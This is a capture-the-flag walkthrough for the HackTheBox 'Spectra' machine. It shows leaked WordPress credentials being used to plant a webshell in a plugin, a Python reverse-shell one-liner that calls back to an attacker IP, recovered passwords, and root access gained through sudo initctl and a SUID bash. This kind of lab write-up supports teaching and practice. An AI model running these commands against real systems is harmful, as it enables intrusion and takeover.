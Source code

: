 1, enumerate the ports and services
22/tcp ssh
80/tcp http `nginx 1.17.4`
3306/tcp mysql `MySQL (unauthorized)`

2, check the pages and services
port 3306 (mysql)
```
mysql -h 10.10.10.229

ERROR 2002 (HY000): Received error packet before completion of TLS handshake. The authenticity of the following error cannot be verified: 1130 - Host '10.10.14.65' is not allowed to connect to this MySQL server

```

port 80 (http), it is powered by `WordPress 5.4.2` and this service is separated into 2 part `\test` and `\main`.separate

We can find `http://spectra.htb/main/wp-login.php` from `\main` but we don't have any credients.

Let's check `\testing`, then it would redirect to `\testing\index.php`

But if we just check `\testing`, we would get the File Directory
![](images/Pasted%20image%2020240901110425.png)

Then we can just check some interesting files.
`\wp-config.php` and `\wp-config.php.save` would be useful.

```
In some cases nano will try to dump the buffer into an emergency file. This will happen mainly if nano receives a SIGHUP or SIGTERM or runs out of memory. It will write the buffer into a file named nano.save if the buffer didn’t have a name already, or will add a “.save” suffix to the current filename. If an emergency file with that name already exists in the current directory, it will add “.save” plus a number (e.g. “.save.1”) to the current filename in order to make it unique. In multibuffer mode, nano will write all the open buffers to their respective emergency files.
```

Clicking on it returns a blank page, but viewing the source (Ctrl-u, or fetching the page with curl) gives the text:
```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'dev' );
/** MySQL database username */
define( 'DB_USER', 'devtest' );
/** MySQL database password */
define( 'DB_PASSWORD', 'devteam01' );
/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );
/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```
Then we get the database credit `devtest:devteam01`

Let's try to connect to the database, but very sadly we could not connect it even through we have the credit.

Let's come to the page of website, 
![](images/Pasted%20image%2020240901111439.png)

we can guess `# Author: administrator`

Let's try this username, but `devtest:devteam01` is not correct 
but `administrator:devteam01` is  correct and we successfully login to the dashboard.
Firstly let's check the versions of plugins
```
# Plugins
WordPress 5.4.2:
**Akismet Anti-Spam** Version 4.1.5
**Hello Dolly** Version 1.7.2
```

Theme Edit - Fail 
There are many ways to try to go from admin login on WP to code execution. The first one I tried was to edit a theme to include a webshell. Under Appearance -> Theme Editor I get access to all the theme pages. I loaded 404 Template, and added a check to the top of the page:
![](images/Pasted%20image%2020240901112411.png)

When I save this, I can go to /main/wp-content/themes/twentytwenty/404.php to trigger it. However, when I try to save, it fails:
![](images/Pasted%20image%2020240901112432.png)

This is a protection put in place to stop people from doing exactly what I’m trying to do.

Edit Existing Plugin:
On the Plugins tab, there are two existing plugins:
![](images/Pasted%20image%2020240901112658.png)

I’ll click on the Plugin Editor (in the menu on the left), and it takes me to the editor with Akismet Anti-Spam loaded and akismet.php in the editor:
![](images/Pasted%20image%2020240901112711.png)

I can find this plugin at `[WP root]/wp-content/plugins/[plugin name]/[filename]`:

`curl http://spectra.htb/main/wp-content/plugins/akismet/akismet.php`

I’ll add a bit of code at the top to make it a webshell only if the parameter 0xdf is there:
![](images/Pasted%20image%2020240901113922.png)

`curl http://spectra.htb/main/wp-content/plugins/akismet/akismet.php?0xdf=id`

Shell
With either webshell, getting a shell is as simple as passing it a reverse shell. I like to use curl so it’s repeatable.
It doesn’t look like nc is on the host, so that eliminates several command reverse shells. I got the Python one to work:
```
curl http://spectra.htb/main/wp-content/plugins/wither/wither.php --data-urlencode "0xdf=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.65\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
```

Then I’ll upgrade my shell:
`python -c 'import pty;pty.spawn("bash")'`

Then let's enumerate the database:
There is a tricky thing, our before credit is not useful in this time, so we need to check the `wp-config.php` again:
```
define( 'DB_NAME', 'dev' );

/** MySQL database username */
define( 'DB_USER', 'dev' );

/** MySQL database password */
define( 'DB_PASSWORD', 'development01' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```

This time `dev:development01`
`administrator | $P$BNlisfpKSFVhrcykt03B/pidcUfNmL0`
I must say this would be rabbit hole, because it is our password before.

Let's check others:
/etc/lsb-release solves the mystery about the OS:
```
cat /etc/lsb-release 

GOOGLE_RELEASE=87.3.41
CHROMEOS_RELEASE_BRANCH_NUMBER=85
CHROMEOS_RELEASE_TRACK=stable-channel
CHROMEOS_RELEASE_KEYSET=devkeys
CHROMEOS_RELEASE_NAME=Chromium OS
CHROMEOS_AUSERVER=https://cloudready-free-update-server-2.neverware.com/update
CHROMEOS_RELEASE_BOARD=chromeover64
CHROMEOS_DEVSERVER=https://cloudready-free-update-server-2.neverware.com/
CHROMEOS_RELEASE_BUILD_NUMBER=13505
CHROMEOS_CANARY_APPID={90F229CE-83E2-4FAF-8479-E368A34938B1}
CHROMEOS_RELEASE_CHROME_MILESTONE=87
CHROMEOS_RELEASE_PATCH_NUMBER=2021_01_15_2352
CHROMEOS_RELEASE_APPID=87efface-864d-49a5-9bb3-4b050a7c227a
CHROMEOS_BOARD_APPID=87efface-864d-49a5-9bb3-4b050a7c227a
CHROMEOS_RELEASE_BUILD_TYPE=Developer Build - neverware
CHROMEOS_RELEASE_VERSION=87.3.41
CHROMEOS_RELEASE_DESCRIPTION=87.3.41 (Developer Build - neverware) stable-channel chromeover64
```

It’s Chrome! And there are users in `/home`
`chronos  katie  nginx  root  user`

There is a interesting file in /opt:
```
/opt/autologin.conf.orig

# Copyright 2016 The Chromium OS Authors. All rights reserved.
# Use of this source code is governed by a BSD-style license that can be
# found in the LICENSE file.
description   "Automatic login at boot"
author        "chromium-os-dev@chromium.org"
# After boot-complete starts, the login prompt is visible and is accepting
# input.
start on started boot-complete
script
  passwd=
  # Read password from file. The file may optionally end with a newline.
  for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do
    if [ -e "${dir}/passwd" ]; then
      passwd="$(cat "${dir}/passwd")"
      break
    fi
  done
  if [ -z "${passwd}" ]; then
    exit 0
  fi
  # Inject keys into the login prompt.
  #
  # For this to work, you must have already created an account on the device.
  # Otherwise, no login prompt appears at boot and the injected keys do the
  # wrong thing.
  /usr/local/sbin/inject-keys.py -s "${passwd}" -k enter
```

This means there would be a password file in `/mnt/stateful_partition/etc/autologin /etc/autologin`
Then we get `SummerHereWeCome!!`

And check the `/etc/passwd` , we can get a username
`katie:x:20156:20157::/home/katie:/bin/bash` and we can use ssh to login the machine.

Continue check `sudo -l`
```
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

```
initctl is a command used in older Linux distributions that use the Upstart init system. Upstart was designed to handle starting of tasks and services during boot, stopping them during shutdown, and supervising them while the system is running. The initctl command allows you to interact with the Upstart init system, enabling you to start, stop, restart, and check the status of services.
```

```
As you can seen in figure 01 initctl own SUDO privileges. Usually initctl works with service configuration file located at /etc/init directory on linux servers. mmmmm. so What if we can inject malicious code into that services. Let’s try
```
![](images/Pasted%20image%2020240901115650.png)

And we can check current status of the services using list command via initctl.

Let’s try to inject a code which set SUID permission /bin/bash from that attack can takeover bash shell as root by modifying service “test” (which is customized service, does not come up as default job)
![](images/Pasted%20image%2020240901120143.png)

`sudo /sbin/initctl start test`

Then we can just `/bin/bash -p`
And we can as the root.
